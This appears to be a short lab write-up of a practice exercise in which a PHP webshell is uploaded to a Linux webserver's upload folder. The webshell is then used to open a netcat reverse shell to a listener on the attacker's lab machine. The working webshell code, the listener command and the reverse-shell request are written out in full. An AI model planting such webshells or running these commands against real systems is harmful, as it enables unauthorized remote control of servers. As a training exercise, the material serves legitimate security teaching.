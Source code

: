 # Practice and Examples

## Linux machine
Configured with a simple webserver where files can be uploaded.

![Linux webserver](./img/linux_machine_webserver.png "linux webserver")

### Exercise 1. 
Try uploading a webshell to the Linux box, then use the command: `nc <LOCAL-IP> <PORT> -e /bin/bash` to send a reverse shell back to a waiting listener on your own machine.

We upload a simple PHP webshell: 

```php
# webshell.php

<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

We can check that it works by accessing the file on the server at `<SERVER_IP>/uploads/webshell.php?cmd=whoami`.

![Webshell success](./img/webshell_whoami.png "Webshell success")

On the attacking machine, we set up a listener at port 6000:

```console
~$ nc -lnvp 6000
```

and we send a reverse shell back to the listener by accessing `http://10.10.88.37/uploads/webshell.php?cmd=nc%2010.10.188.168%206000%20-e%20/bin/bash`. i.e. we send the command `nc <LISTENER_IP> <PORT> -e /bin/bash` as the `GET` parameter.

![Reverse shell success](./img/reverse_shell_success.png "Reverse shell success")

